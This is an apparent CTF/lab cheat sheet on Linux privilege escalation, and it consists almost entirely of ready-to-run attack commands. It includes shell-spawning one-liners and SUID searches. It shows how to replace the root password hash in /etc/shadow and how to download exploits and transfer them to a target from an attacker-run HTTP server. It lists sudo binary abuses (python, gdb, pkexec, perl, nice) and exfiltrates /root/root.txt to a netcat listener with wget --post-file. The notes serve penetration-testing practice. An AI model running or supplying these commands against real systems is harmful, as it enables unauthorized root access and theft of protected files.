 - ## Privilege escalation <a name="privilegeescalation"></a>
[easy way to get root/root.txt](#root.txt)
- `cat /etc/issue`
```
find / -o -group `id -g` -perm \ 
 -g=w -perm -u=s -o -perm -o=w\
 -perm -u=s -o -perm -o=w \
 -perm -g=s -ls
```
- ```python3 -c 'import os; os.system("/bin/bash")'```
- ```python -c 'import pty; pty.spawn("/bin/bash")'```
- ```python -c 'import os; os.setuid(0); os.system("/bin/sh")'```
- `echo os.system('/bin/bash')`
```
exec "/bin/sh";
perl —e 'exec "/bin/sh";'
```
> [!IMPORTANT]
> - If you have permission to write /etc/shadow use the below commands
> - First you need to creat a one hash password using openssl
> - `openssl passwd -1 -salt abc password123` it will give you a hash $1$abc$DSFILJKSD7393llsd.0s/ copy that
> - Edit the root password
> - `root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`


- `os.execute('/bin/sh')`
- `exec "/bin/sh"`
- ```find /  -perm -u=s -type f 2>/dev/null``` to see the permission
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system ```wget http://<myip>/<filename>```
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```

# easy way to get root/root.txt <a name="root.txt"></a>
### 1️⃣ Read the Root Flag Using --input-file:
- Use a root-only file (/root/root.txt) as an input to wget.
- It will try to parse it as a URL, fail, and leak the content (flag) in the error.
  - `sudo wget --input-file=/root/root.txt`


### 2️⃣ Exfiltrate the Flag Using --post-file:
- Use wget to send the flag to your attack machine.
- Steps:
  - 1. On your Kali machine, start a netcat listener:
    - `nc -lnvp 443`
  - 2. On the victim (sammy), run:
    - `sudo wget --post-file=/root/root.txt http://<your-ip>:443/`
- >The flag is sent to your listener.
